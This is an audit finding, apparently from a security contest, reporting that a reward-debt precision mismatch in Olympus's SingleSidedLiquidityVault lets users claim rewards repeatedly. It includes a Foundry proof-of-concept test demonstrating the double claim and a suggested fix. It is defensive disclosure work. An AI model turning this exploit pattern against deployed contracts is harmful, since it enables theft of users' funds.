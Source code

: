 0xlmanini

high

# Multiple calls to SingleSidedLiquidityVault#claimRewards() allow user to extract more tokens than they are rewarded

## Summary
Incorrect accounting for userRewardDebts allows users call SingleSidedLiquidityVault#claimRewards() multiple times within the same block to extract more tokens than the rewards calculated for them by the Vault.

## Vulnerability Detail
For both internal and external tokens, SingleSidedLiquidityVault#_claimInternalRewards() and SingleSidedLiquidityVault#_claimExternalRewards() respectively incorrectly update the userRewardDebts mapping, as they do not take into account that reward debt is stored as a value with 36 digits of precision (as can be seen [here](https://github.com/sherlock-audit/2023-02-olympus/blob/main/src/policies/lending/abstracts/SingleSidedLiquidityVault.sol#L543-L545)). 
The methods add to that amount the value reward, which instead has 18 decimals of precision, failing to correctly register the succesfull claim of funds.

## Impact
Theft of funds

## Code Snippet
Bug may be found by following the execution flow starting from [claimRewards()](https://github.com/sherlock-audit/2023-02-olympus/blob/main/src/policies/lending/abstracts/SingleSidedLiquidityVault.sol#L288-L310), down to [_claimInternalRewards](https://github.com/sherlock-audit/2023-02-olympus/blob/main/src/policies/lending/abstracts/SingleSidedLiquidityVault.sol#L623-L634) or [_claimExternalRewards](https://github.com/sherlock-audit/2023-02-olympus/blob/main/src/policies/lending/abstracts/SingleSidedLiquidityVault.sol#L636-L648) and finally into, [internalRewardsForToken](https://github.com/sherlock-audit/2023-02-olympus/blob/main/src/policies/lending/abstracts/SingleSidedLiquidityVault.sol#L354-L372) or [externalRewardsForToken](https://github.com/sherlock-audit/2023-02-olympus/blob/main/src/policies/lending/abstracts/SingleSidedLiquidityVault.sol#L378-L386).

The following is a PoC I've added to WstethLiquidityVaultFork.t.sol in order to verify my finding:
```solidity
function test_doubleRewards() public {
        _withdrawTimeSetUp(); 
        // this happens 10s ~= 1 block after alice deposits 1 wstETH
        assertEq(ldo.balanceOf(alice), 0);
        assertEq(externalReward.balanceOf(alice), 0);

        uint256 wstethBalanceBefore = wsteth.balanceOf(alice);

        vm.startPrank(alice);

        // first claim
        liquidityVault.claimRewards();

        // rewards after first claim invocation
        uint256 ldoIntermediateBal = ldo.balanceOf(alice);
        uint256 extIntermediateBal = externalReward.balanceOf(alice);
        
        // second claim + withdrawal
        liquidityVault.claimRewards();
        liquidityVault.withdraw(1e18, minTokenAmounts_, false);

        uint256 wstethBalanceAfter = wsteth.balanceOf(alice);
        
        vm.stopPrank();

        // rewards after second claim invocation
        uint256 ldoFinalBal = ldo.balanceOf(alice);
        uint256 extFinalBal = externalReward.balanceOf(alice);

        // confirm bug is present
        assertGt(ldoFinalBal, ldoIntermediateBal);
        assertGt(extFinalBal, extIntermediateBal);
        
        // confirm alice is able to withdraw her deposit
        assertGt(wstethBalanceAfter, wstethBalanceBefore);

        emit log_named_decimal_uint("Intermediate LDO", ldoIntermediateBal, 18);
        emit log_named_decimal_uint("Final LDO", ldoFinalBal, 18);
        emit log_named_decimal_uint("Intermediate EXT", extIntermediateBal, 18);
        emit log_named_decimal_uint("Final EXT", extFinalBal, 18);
    }
```

## Tool used

Manual Review

## Recommendation
Consider accounting user reward debt as a wad or remember to amplify the new debt from 18 to 36 precision digits within the _claimInternalRewards() and _claimExternalRewards() methods, as such:
```solidity
userRewardDebts[msg.sender][rewardToken] += (reward * 1e18);
```
Although this fix corrects the situation for internal reward tokens, notice it doesn't completely solve the situation for external reward tokens.